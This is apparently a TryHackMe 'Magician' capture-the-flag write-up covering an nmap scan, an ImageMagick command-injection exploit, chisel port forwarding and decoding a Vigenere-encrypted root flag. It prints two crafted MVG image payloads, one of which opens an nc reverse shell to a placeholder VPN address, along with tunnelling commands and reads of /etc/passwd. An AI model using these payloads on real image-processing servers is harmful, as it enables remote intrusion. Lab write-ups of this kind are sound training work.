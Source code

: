 # Magician TryHackMe Writeup

> Room Link : https://tryhackme.com/room/magician

![](images/BoxImage.png)



## Pathway

In this room we exploit a vulnerability in ImageMagick and gain foothold and find a service running internally , we portforward it to our local machine and get root flag.



## __First Stage : Enumeration__



So as usual we start with our fav nmap.

```
# Nmap 7.91 scan initiated Mon Feb 22 18:22:51 2021 as: nmap -sC -sV -T4 -vv -p- -oN nmapscan magician
Warning: 10.10.187.130 giving up on port because retransmission cap hit (6).
Nmap scan report for magician (10.10.187.130)
Host is up, received conn-refused (0.18s latency).
Scanned at 2021-02-22 18:22:51 IST for 725s
Not shown: 65527 closed ports
Reason: 65527 conn-refused
PORT      STATE    SERVICE        REASON      VERSION
21/tcp    open     ftp            syn-ack     vsftpd 2.0.8 or later
1620/tcp  filtered faxportwinport no-response
8080/tcp  open     http-proxy     syn-ack
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.1 404 
|     Vary: Origin
|     Vary: Access-Control-Request-Method
|     Vary: Access-Control-Request-Headers
|     Content-Type: application/json
|     Date: Mon, 22 Feb 2021 13:02:43 GMT
|     Connection: close
|     {"timestamp":"2021-02-22T13:02:44.102+0000","status":404,"error":"Not Found","message":"No message available","path":"/nice%20ports%2C/Tri%6Eity.txt%2ebak"}
|   GetRequest: 
|     HTTP/1.1 404 
|     Vary: Origin
|     Vary: Access-Control-Request-Method
|     Vary: Access-Control-Request-Headers
|     Content-Type: application/json
|     Date: Mon, 22 Feb 2021 13:02:41 GMT
|     Connection: close
|     {"timestamp":"2021-02-22T13:02:42.141+0000","status":404,"error":"Not Found","message":"No message available","path":"/"}
|   HTTPOptions: 
|     HTTP/1.1 404 
|     Vary: Origin
|     Vary: Access-Control-Request-Method
|     Vary: Access-Control-Request-Headers
|     Content-Type: application/json
|     Date: Mon, 22 Feb 2021 13:02:42 GMT
|     Connection: close
|     {"timestamp":"2021-02-22T13:02:42.551+0000","status":404,"error":"Not Found","message":"No message available","path":"/"}
|   RTSPRequest: 
|     HTTP/1.1 505 
|     Content-Type: text/html;charset=utf-8
|     Content-Language: en
|     Content-Length: 465
|     Date: Mon, 22 Feb 2021 13:02:43 GMT
|     <!doctype html><html lang="en"><head><title>HTTP Status 505 
|     HTTP Version Not Supported</title><style type="text/css">body {font-family:Tahoma,Arial,sans-serif;} h1, h2, h3, b {color:white;background-color:#525D76;} h1 {font-size:22px;} h2 {font-size:16px;} h3 {font-size:14px;} p {font-size:12px;} a {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body><h1>HTTP Status 505 
|_    HTTP Version Not Supported</h1></body></html>
|_http-title: Site doesn't have a title (application/json).
8081/tcp  open     http           syn-ack     nginx 1.14.0 (Ubuntu)
|_http-favicon: Unknown favicon MD5: CA4D0E532A1010F93901DFCB3A9FC682
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: magician
27466/tcp filtered unknown        no-response
35186/tcp filtered unknown        no-response
48369/tcp filtered unknown        no-response
54978/tcp filtered unknown        no-response
1 service unrecognized despite returning data. 
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Feb 22 18:34:56 2021 -- 1 IP address (1 host up) scanned in 725.28 seconds
```


Hence we can see there is a http server running port 8081.



So let's add the machine ip in **/etc/hosts** as __magician__ .

![](images/port8081.png)


Hence this server converts png images to jpg format.


I tried intercepting the request , uploading reverse shell but none worked. So I tried enumerating ftp. And found something interesting (not a file)


![](images/ftp.png)

## __Second Stage : Initial Foothold__

Hence I visited the link and got to know about the what was happening in the background.

So ImageMagick is a package used by web servers to convert or process images . And this package had a serious vulnerability of RCE (the one hackers love) and this our clue to exploit this box. 

So in the article they explained how to create a image file with command injection . For example

exploit.mvg 

```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://example.com/image.jpg";|ls "-la)'
pop graphic-context
```

Hence we need to create a payload like this for png , as I was searching for payloads I found one (two) in [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)

![](images/payloadlist.png)


Hence I cloned the repo and got the payload and changed the ip value and uploaded it.


exploit.png
```
push graphic-context
encoding "UTF-8"
viewbox 0 0 1 1
affine 1 0 0 1 0 0
push graphic-context
image Over 0,0 1,1 '|mkfifo /tmp/gjdpez; nc <vpnip> 4444 0</tmp/gjdpez | /bin/sh >/tmp/gjdpez 2>&1; rm /tmp/gjdpez '
pop graphic-context
```


And I got shell back.

![](images/magician.png)

And we can get user.txt.


## __Third Stage : Magician to root__


![](images/continue.png)


The word locally listening hinted me it has something to do with some service running internally.

So I ran the command 

> netstat -tulpn | grep LISTEN

![](images/openport.png)


So I used python server to download **Chisel** for portforwarding.

In my local machine 

> ./chisel server -p 10000 --reverse

In the thm machine

> ./chisel 10.8.74.96:10000 R:6666:127.0.0.1:6666


![](images/mymach.png)


![](images/vulnmach.png)


Next visiting http://127.0.0.1:6666 we can see

![](images/magicat.png)


I just tried **/etc/passwd**

And got 

![](images/test1.png)



Hence I tried **/root/root.txt**


![](images/encfl.png)


And I know this is **vigenere_chipher** , So I used a website to solve this.

> https://www.boxentriq.com/code-breaking/vigenere-cipher


And got root flag

![](images/root.png)